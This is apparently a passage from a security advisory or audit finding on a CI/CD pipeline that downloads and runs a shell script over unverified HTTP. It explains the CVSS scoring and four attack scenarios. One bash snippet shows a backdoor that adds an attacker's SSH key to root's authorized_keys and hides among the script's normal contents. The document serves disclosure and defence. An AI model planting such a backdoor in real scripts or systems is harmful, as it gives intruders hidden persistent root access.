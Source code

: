 - **Low Attack Complexity (AC:L)**: Once an attacker is in position to intercept the HTTP request or control the response, exploitation is straightforward. The attacker simply needs to provide a malicious shell script that will be executed without verification.

- **No Privileges Required (PR:N)**: The attacker doesn't need any privileges on the target system to execute this attack, only the ability to control the script source.

- **No User Interaction (UI:N)**: The vulnerability can be exploited without any action from legitimate users, as the CI/CD pipeline automatically executes the script.

- **Changed Scope (S:C)**: The vulnerability exists in the deployment script but affects the entire system where the script runs. Given that it executes with elevated privileges, the impact extends beyond the vulnerable component to potentially the entire production environment.

- **High impacts on Confidentiality, Integrity, and Availability (C:H/I:H/A:H)**: A successful exploit would give attackers complete control over the affected systems, allowing them to access sensitive data, modify system files and configurations, and disrupt services.

# Exploitation Scenarios
**Scenario 1: Update Server Compromise**
An attacker gains unauthorized access to the updates.acme.com server (or compromises a CDN/proxy in front of it). They modify the install.sh script to include malicious commands that create a persistent backdoor. When the CI/CD pipeline runs, it downloads and executes the compromised script, giving the attacker ongoing access to production systems. The attacker could add commands like:

```bash
# Original update script contents here...

# Malicious backdoor
mkdir -p /root/.ssh
echo "ssh-rsa AAAA...attackers-key..." >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys

# Continue with original script to avoid detection...

```

**Scenario 2: Man-in-the-Middle Attack**
An attacker with access to the network infrastructure between the CI/CD server and updates.acme.com intercepts the HTTP request. Since the connection is unencrypted, they can see the request and respond with their own malicious payload instead of the legitimate script. This is made easier by the use of plain HTTP rather than HTTPS. The attacker's interception could be performed using ARP spoofing, rogue WiFi access points, or compromised network equipment.

**Scenario 3: DNS Poisoning**
The attacker compromises or poisons the DNS infrastructure used by the CI/CD system, causing updates.acme.com to resolve to an IP address under their control. When the deployment script attempts to fetch the update script, the request goes to the attacker's server, which delivers malicious code that gets executed with elevated privileges. This attack could target either local DNS resolvers or, in some cases, attempt to poison DNS caches at a broader level.

**Scenario 4: Supply Chain Attack**
Rather than directly attacking Acme Corp's infrastructure, the attacker compromises a third-party service provider that hosts or delivers the update script. This could be a hosting provider, CDN, or package repository. The attacker makes subtle modifications to the script that are difficult to detect but establish persistence on systems that download and execute it.
